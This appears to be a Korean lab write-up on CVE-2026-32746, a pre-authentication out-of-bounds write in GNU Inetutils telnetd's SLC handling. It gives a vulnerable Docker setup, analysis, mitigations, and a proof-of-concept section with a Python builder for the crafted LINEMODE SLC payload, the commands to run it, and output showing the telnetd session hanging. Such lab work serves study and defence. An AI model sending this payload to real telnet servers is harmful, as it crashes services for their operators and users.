



# GNU Inetutils telnetd LINEMODE SLC 취약점 (CVE-2026-32746)

## Contributors

- m1ng-gu

## 환경 설정

다음 명령어를 실행하여 취약한 GNU Inetutils telnetd 2.7 환경을 구축한다.

```bash
docker compose up
```

`docker-compose.yml`에 `build: .`가 포함되어 있으므로, 이미지가 없는 환경에서는 `docker compose up` 명령만으로 Dockerfile 기반 빌드와 컨테이너 실행이 함께 수행된다.




환경이 정상적으로 실행되면 다른 터미널에서 컨테이너 상태를 확인한다.

```bash
docker ps
```

컨테이너 내부에서 telnetd 버전과 포트 상태를 확인한다.

```bash
docker exec -it cve-2026-32746 /bin/bash
/usr/local/libexec/telnetd --version
ss -lntp
```

정상적으로 구성되었다면 GNU Inetutils telnetd 2.7이 출력되고, xinetd가 23번 포트를 listen하고 있는 것을 확인할 수 있다.



## 배경 설명

Telnet은 원격 접속을 위한 오래된 프로토콜이다. 클라이언트가 서버에 접속하면 바로 로그인만 수행하는 것이 아니라, 접속 초기에 여러 Telnet 옵션을 협상한다.

이 과정에서 LINEMODE 옵션과 SLC(Set Local Characters) suboption이 사용될 수 있다. SLC는 터미널에서 사용하는 특수 제어 문자, 예를 들어 인터럽트나 EOF 같은 문자를 어떻게 처리할지 협상하는 기능이다.

이번 취약점은 이 LINEMODE SLC 데이터를 처리하는 과정에서 발생한다.

## 취약점 정보

CVE-2026-32746은 GNU Inetutils telnetd 2.7 이하 버전에서 발생하는 취약점이다. 취약한 telnetd는 `telnetd/slc.c`의 `add_slc()` 함수에서 SLC 데이터를 버퍼에 추가하는데, 이때 버퍼 크기에 대한 검사가 부족하여 out-of-bounds write가 발생할 수 있다.

이 취약점의 중요한 점은 로그인 이후가 아니라 로그인 전 옵션 협상 단계에서 발생할 수 있다는 것이다. 즉 공격자는 계정 정보를 몰라도 telnetd 포트에 접근할 수 있다면 조작된 LINEMODE SLC payload를 전송할 수 있다.

| 항목 | 내용 |
|---|---|
| CVE | CVE-2026-32746 |
| 대상 | GNU Inetutils telnetd |
| 영향 버전 | 2.7 이하 |
| 취약 위치 | `telnetd/slc.c`, `add_slc()` |
| 취약 유형 | Out-of-bounds Write / Buffer Overflow |
| 공격 조건 | Telnet 포트 접근 가능 |
| 인증 필요 여부 | 불필요 |
| 영향 | 서비스 응답 불능, 크래시, 메모리 손상 가능성 |

## 취약점 분석

처음에는 Ubuntu 패키지 저장소의 `inetutils-telnetd`를 설치해서 실습하려고 하였다. 하지만 배포판 패키지는 버전이 낮아 보여도 보안 패치가 백포트되어 있을 수 있다. 실제로 apt 패키지 기반 환경에서는 PoC payload를 전송해도 서버가 계속 응답하였다.

따라서 최종 환경에서는 GNU Inetutils 2.7 원본 소스를 직접 다운로드하여 빌드하였다. 이를 통해 배포판에서 수정된 패키지가 아니라, 취약 버전의 telnetd를 대상으로 실습할 수 있었다.

본 실습 환경에서는 xinetd가 23번 포트를 listen하고, 접속이 들어오면 `/usr/local/libexec/telnetd`를 실행하도록 구성하였다.

## POC(Proof of Concept)

### 사용법

PoC의 일반적인 실행 형식은 다음과 같다.

```bash
python3 poc.py <host> <port> <rounds>
```

본 실습 환경에서는 `docker-compose.yml`에서 호스트의 2323번 포트를 컨테이너 내부의 23번 포트로 매핑하였다.

```yaml
ports:
  - "2323:23"
```

따라서 이 제출 환경을 그대로 실행하는 경우, PoC의 포트 번호는 2323으로 지정해야 한다.

```bash
python3 poc.py 127.0.0.1 2323 40
```

각 인자의 의미는 다음과 같다.

| 인자 | 설명 |
|---|---|
| `<host>` | telnetd가 실행 중인 호스트 주소 |
| `<port>` | 호스트에서 노출한 telnetd 포트. 본 실습 환경에서는 2323번 포트 |
| `<rounds>` | 전송할 SLC triplet 반복 횟수 |

`docker-compose.yml`의 포트 매핑은 `호스트 포트:컨테이너 포트` 형식이다. 즉 `2323:23`은 호스트의 2323번 포트로 들어온 연결을 컨테이너 내부의 23번 Telnet 포트로 전달한다는 의미이다.

```text
Host 2323 -> Container 23
```

Docker를 실행한 같은 PC에서 PoC를 실행하는 경우에는 `127.0.0.1`을 사용한다. 만약 Docker 환경을 원격 서버에서 실행하고 다른 PC에서 PoC를 실행하는 경우에는 `127.0.0.1` 대신 Docker가 실행 중인 서버의 IP 주소를 입력하면 된다.

```bash
python3 poc.py <docker-server-ip> 2323 40
```

### PoC 동작 방식

PoC는 다음 순서로 동작한다.

1. 대상 호스트와 포트로 TCP 연결을 생성한다.
2. 서버가 보내는 초기 Telnet 협상 데이터를 읽어서 비운다.
3. 클라이언트가 LINEMODE 옵션을 사용할 수 있음을 알리기 위해 `WILL LINEMODE`를 전송한다.
4. 서버의 LINEMODE 응답을 다시 읽어서 비운다.
5. 조작된 LINEMODE SLC payload를 전송한다.
6. payload 이후 서버가 정상적으로 응답하는지 확인한다.

핵심 payload는 `IAC SB LINEMODE SLC ... IAC SE` 형식으로 구성된다. 내부에는 `function`, `flag`, `value`로 이루어진 SLC triplet이 반복해서 들어간다.

```python
def build_slc_payload(rounds):
    p = bytearray()
    p += bytes([IAC, SB, TELOPT_LINEMODE, LM_SLC])

    for i in range(rounds):
        func = (i % 17) + 1
        flag = 0x03
        value = 0x41
        p += bytes([func, flag, value])

    p += bytes([IAC, SE])
    return bytes(p)
```


### 실행 결과

PoC 실행 결과, 조작된 LINEMODE SLC payload 전송 이후 서버로부터 추가 응답이 반환되지 않았다.

```text
[+] Target: 127.0.0.1:2323
[+] SLC triplets: 40
[+] Connected
[*] initial: drained 15 bytes: ...
[+] Sending WILL LINEMODE
[*] after WILL LINEMODE: drained 11 bytes: ...
[+] Sending crafted LINEMODE SLC payload: 126 bytes
[!] No response after payload
[+] Result: possible hang/crash observed
[+] Done
```



위 결과는 조작된 LINEMODE SLC payload를 받은 후 telnetd 세션이 정상적인 응답을 지속하지 못했음을 보여준다. xinetd는 부모 프로세스로 계속 23번 포트를 listen하지만, PoC가 연결한 개별 telnetd 세션에서는 payload 이후 응답 불능 상태가 관찰되었다.

## 대응 방안

이 취약점에 대한 대응 방안은 다음과 같다.

1. GNU Inetutils telnetd를 취약하지 않은 버전으로 업데이트한다.
2. Telnet은 암호화되지 않는 오래된 프로토콜이므로 SSH로 대체한다.
3. telnetd 서비스를 비활성화한다.
4. 부득이하게 Telnet을 사용해야 하는 경우 TCP 23번 포트 접근을 방화벽으로 제한한다.
5. IDS/IPS에서 비정상적인 Telnet LINEMODE SLC payload를 탐지하도록 정책을 구성한다.

운영 환경에서는 Telnet 사용을 지양하는 것이 좋다. 특히 외부에서 접근 가능한 Telnet 서비스는 계정 정보가 평문으로 전송될 뿐 아니라, 이번 사례처럼 로그인 전 옵션 협상 단계에서도 취약점이 발생할 수 있다.